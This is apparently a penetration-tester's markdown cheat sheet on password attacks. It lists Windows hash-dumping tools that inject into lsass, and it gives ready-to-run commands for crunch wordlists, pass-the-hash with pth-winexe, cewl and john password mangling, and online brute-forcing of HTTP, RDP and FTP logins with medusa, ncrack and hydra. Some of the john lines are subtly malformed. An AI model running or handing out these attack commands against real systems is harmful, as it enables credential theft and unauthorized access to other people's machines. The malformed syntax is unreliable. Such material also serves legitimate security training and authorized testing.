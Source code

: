 # Windows Tools
## fgdump.exe
Injects dll code into lsass process with hash cracking code.

Dumps Windows Password Hashes (requires Administrative Privs)

## wce.exe (Windows Credential Editor)
```
wce64.exe   # for x64
wce.exe     # for x86
```

## pwdump.exe

Injects dll code into lsass process with hash cracking code.

Dumps Windows Password Hashes (requires Administrative Privs)

## Crunch
```
# See man page for examples
root@kali:~# crunch 6 6 0123456789ABCDEF -o crunch1.txt 
root@kali:~# crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha 
# @ - Lower case alpha characters 
# , - Upper case alpha characters 
# % - Numeric characters 
# ^ - Special characters including space 
root@kali:~# crunch 8 8 -t ,@@^^%%% 
```

## Passing the Hash
Capture NT/LM hash

```
export SMBHASH=<NT/LMHASH>
pth-winexe -U administrator% //10.x.x.x cmd
```

## Password Profiling
```
cewl www.google.com -m 6 -w /root/Desktop/google-words.txt

# john tricks
# add 2 numbers to the end of every password
$[0-9]$[0-90]  # (/etc/john/john.conf)
john --wordlist=/root/Desktop/google-words.txt --rules --stdout | > /root/Desktop/mangled.txt
```

# Online Attacks

## Medusa
```
medusa -h 10.x.x.x -u admin -P wordlist.txt -M http -m DIR:/admin -T 20     # for htaccess file protected page
```
## Ncrack (reliable for rdp)
```
ncrack -v -f --user administrator -P wordlist.txt rdp://10.x.x.x,CL=1
```

## Hydra (can be used for lots of online schemes)
```
hydra -l admin -P wordlist.txt -v 10.x.x.x ftp
```

## LM/NTLM
xp/2k3 and prior use LM

vista/2k8 and newer use NTLM
